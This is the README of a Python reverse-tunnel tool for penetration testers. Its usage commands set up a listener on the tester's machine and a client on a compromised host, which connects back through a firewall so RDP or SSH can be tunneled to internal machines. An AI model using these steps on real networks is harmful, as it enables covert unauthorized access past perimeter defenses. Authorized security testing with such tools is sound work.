 # pyrevtun

Description
===========
A pure Python reverse tunnel/reverse port forward utility (prototype) to forward TCP protocols over SSL/TLS.  This tool is designed for penetration testers and security enthusiasts.

Inspiration
===========
- Firecat: http://www.bishopfox.com/resources/tools/other-free-tools/firecat/
- Powercat: https://github.com/besimorhino/powercat/
- Socket "recvall" function: http://code.activestate.com/recipes/213239-recvall-corollary-to-socketsendall/

Requirements
============
- Python 2.7.x
- X509 PEM public/private key (unprotected)
- A password of your choice

Tool Usage
==========
1) On the penetration tester's local machine, setup pyrevtun in listener mode:

- python pyrevtun.py -m listener -l [IP:port] -t [local tunnel port] -s [certificate file] -k [private key file] -p [auth password]
- e.g. python pyrevtun.py -m listener -l 192.168.1.59:443 -t 33389 -s example_cert.pem -k example_key.pem -p pass

2) On compromised machine, setup pyrevtun in client mode:

- pyrevtun.py -m client -l [listener IP:port] -c [target IP:port] -p [auth password]
- e.g. python pyrevtun.py -m client -l 192.168.102.59:443 -c 10.5.5.5:3389 -p pass
- This connection will open up the chosen local port on the pen test machine.

3) Using TCP app (i.e. RDP, SSH client), connect to specified local port as [localhost:local tunnel port] 
- e.g. localhost:33389

*To prevent lockup, run in the background (&)

A practical Scenario
====================

1] [Pen Test Machine] <----rev conn---- [Firewall] <------- [Compromised Machine]    ?    [Destination Machine]

- In this example, the penetration tester has compromised an internal network machine and has initiated a reverse connection (client mode) with pyrevtun back the the attack machine (listening mode).  The local port opens on the attack machine.

2) [Pen Test Machine] ----tunnel conn----> [Firewall] -------> [Compromised Machine] --------> [Destination Machine]

- The penetration tester connects to the the local port on the pen test machine (e.g. RDP).  RDP is forwarded over the reverse connection to the destination machine through the firewall and compromised machine.

Bugs/Issues
===========
- Socket shutdown/closure is not always graceful (may need to kill the process manually).
- Protocols like RDP (NLA auth) can be finicky.  If it doesn't work the first time, try it again.

Tool Usage & Ethics
===================
This tool was designed to help security professionals perform ethical and legal vulnerability assessments and penetration tests.  Do not use for nefarious purposes.

Also, I "program" for functionality, not necessarily final completion.  I am striving the for latter a little more each day...so if you find any major problems, let me know.
